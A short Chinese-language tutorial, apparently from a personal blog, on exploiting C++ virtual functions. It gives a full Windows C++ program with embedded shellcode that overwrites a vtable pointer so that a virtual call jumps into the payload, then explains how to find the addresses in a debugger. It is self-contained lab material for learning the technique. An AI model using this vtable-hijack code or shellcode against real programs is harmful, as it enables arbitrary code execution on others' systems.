





# Exploiting virtual function in C++

**Author：wnagzihxain
Mail：tudouboom@163.com**

攻击虚函数是一件很有意思的事
```
#include "windows.h"
#include "iostream.h"
#include <cstdio>

char shellcode[] = 
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\xAC\xBA\x40\x00";//set fake virtual function pointer

class Failwest
{
public:
	char buf[200];
	virtual void test(void)
	{
		cout<<"Class Vtable::test()"<<endl;
	}
};

Failwest overflow, *p;

int main(void)
{
	char* p_vtable;
	p_vtable = overflow.buf - 4;//point to virtual table
	printf("%p %p\n", overflow.buf, overflow.buf - 4);
	//__asm int 3
	p_vtable[0] = 0x5C;
	p_vtable[1] = 0xBB;
	p_vtable[2] = 0x40;
	p_vtable[3] = 0x00;
	strcpy(overflow.buf, shellcode);//set fake virtual function pointer
	//__asm int 3
	p = &overflow;
	p->test();
	return 0;
}
```

当我拿到代码的时候，并不是急着去运行然后弹窗，因为很明显的有一种潜意识，跳转什么的地址肯定是需要自己重新确定的，所以我们来观察一下代码，可以看到手动修改了虚表的指针，那我们就把存放虚表指针的地址输出来



是不是觉得好机智，好了既然输出了存放虚表指针的地址，那我们就去看看



虚表指针是`0x004080C8`，后面就是buf的空间了

那我们现在修改一下代码，看看shellcode覆盖到哪里过



这样赋值完就可以断下来直接观察内存了



可以看到最后是`0x0040BB5C`，所以我们需要修改虚表指针指向这个地址，不是这个地址的值！！！！！！

然后我们需要修改这个地址的值为`0x0040BAAC`，这是shellcode在内存的起始位置，所以弄好后是这样的



世界就是这么美好

解释一下流程，我们手动修改虚表指针直接指向shellcode的某处，然后某处存的值是shellcode的起始地址，这就模仿了先取虚表指针，然后再去虚表指针所指向的内存单元取虚函数指针的流程一样